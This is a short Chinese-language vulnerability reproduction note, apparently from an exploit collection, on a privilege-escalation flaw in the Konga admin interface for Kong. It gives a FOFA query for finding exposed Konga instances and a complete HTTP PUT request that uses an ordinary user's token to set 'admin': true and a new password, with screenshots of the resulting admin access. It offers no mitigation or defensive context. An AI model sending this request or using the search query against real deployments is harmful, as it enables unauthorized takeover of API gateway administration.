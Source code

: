 # Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## FOFA

```
"konga"
```

## 漏洞复现

登录页面



![image-20220210184626593](./images/202202101846658.png)

创建非管理员用户后登录并获取token



![](./images/202202101847245.png)



发送请求包, 将token修改为刚刚获取的



```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```



![](./images/202202101847809.png)



成功转为管理员用户



![](./images/202202101847129.png)